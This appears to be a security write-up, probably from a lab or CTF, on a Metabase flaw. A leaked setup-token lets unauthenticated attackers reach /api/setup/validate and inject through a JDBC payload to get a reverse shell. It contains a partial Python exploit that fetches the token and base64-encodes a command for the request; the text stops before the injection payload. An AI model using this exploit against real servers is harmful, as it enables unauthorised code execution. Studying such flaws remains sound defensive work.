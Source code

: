 ![setup token accessible](images/image4.png)


The setup-token is given to users and allows them to complete the setup process for Metabase. However, it was discovered that even after setup process for Metabase was already completed, the setup-token was still present and can be viewed by unauthenticated users. This exploit uses the setup-token in order to access the endpoint "/api/setup/validate" and send a POST request to that endpoint. During the setup process, Metabase was required to connect to many databases, so this exploit would leverage this by sending a POST request to that endpoint which connects to a JDBC database. It was then found that a parameter in the payload was vulnerable to SQL injection and that it would be possible to send a payload that results in code execution and a reverse shell being sent to the attacker.


Following the steps detailed in the guide, a script was created to exploit this vulnerability:


```python
import requests, random
import base64
import sys


def get_token(url):
    response = requests.get(f"{url}/api/session/properties")
    if response.status_code == 200:
        json_data = response.json()
        return json_data.get("setup-token")
    else:
        print("Failed to fetch token. Status code:", response.status_code)
        

def encode_command(payload):
    encoded_payload = base64.b64encode(payload.encode('ascii')).decode()
    count = encoded_payload.count('=')

    if count >= 1:
        encoded_payload = base64.b64encode(f'{payload}{" " * count}'.encode('ascii')).decode()

    return encoded_payload


def send_to_api(url, data, token):
    encoded_data = encode_command(data)
    
    payload = {
        "token": token,
        "details": {
            "is_on_demand": False,
            "is_full_sync": False,
            "is_sample": False,
            "cache_ttl": None,
            "refingerprint": False,
            "auto_run_queries": True,
            "schedules": {},
```